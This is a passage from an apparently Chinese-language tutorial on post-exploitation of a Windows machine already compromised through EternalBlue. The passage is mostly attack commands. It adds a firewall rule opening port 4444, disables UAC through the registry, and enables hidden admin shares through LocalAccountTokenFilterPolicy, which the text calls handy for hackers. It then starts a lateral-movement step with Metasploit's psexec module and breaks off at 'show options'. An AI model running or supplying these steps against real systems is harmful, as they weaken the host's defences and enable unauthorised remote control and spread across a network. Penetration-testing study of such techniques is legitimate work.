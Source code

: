 shell             #进入终端
chcp 65001        #Cmd窗口中utf-8格式的编码
netsh firewall add portopening TCP 4444 "tubage" ENABLE ALL
防止防火墙以后是开启的，所以提前创建一条防火墙规则允许4444端口访问网络，方便后期操作

![img](https://img-blog.csdnimg.cn/img_convert/7b6690fdaed9d9fbce8d72cbf4e339cb.png)

### 2.关闭UAC

用户帐户控制（User Account Control，简写作UAC)是微软公司在其Windows Vista及更高版本操作系统中采用的一种控制机制。

其原理是通知用户是否对应用程序使用硬盘驱动器和系统文件授权，以达到帮助阻止恶意程序（有时也称为“恶意软件”）损坏系统的效果。

cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v EnableLUA /t REG_DWORD /d 0 /f

![img](https://img-blog.csdnimg.cn/img_convert/e5982d060eaa8527f2f3132da67e8b70.png)

### 3.开启默认共享

```
cmd.exe /k %windir%\System32\reg.exe ADD HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /v LocalAccountTokenFilterPolicy /t REG_DWORD /d 1 /f
```

开启系统主机的默认共享，也叫隐藏共享，是用来远程管理的，一般的时候看不到的，但是非常方便黑客利用这个功能，远程执行命令。

输入多次exit 直到回到meterpreter ，输入backgroup 将刚刚永恒之蓝拿到的会话保持到后台。

## 九、使用psexec

psexec 是 windows 下非常好的一款远程命令行工具。

原理：

通过管道在远程目标机器上创建一个psexec服务，并在本地磁盘中生成一个名为"PSEXESVC"的二进制文件。然后，通过psexec服务运行命令，运行结束后删除服务。

在使用psexec执行远程命令时，会在目标系统中创建一个psexec服务。

命令执行后，psexec服务将会被自动删除。

由于创建或删除服务时会产生大量的日志，所以会在攻击溯源时通过日志反推攻击流程。

### 1.使用扫描模块

```
use exploit/windows/smb/psexec
```

![img](https://img-blog.csdnimg.cn/img_convert/f8f55cf59dbfd0f8e4e85accb4ac5f6e.png)

### 2.查看参数，并配置需要的参数

```
show options
```
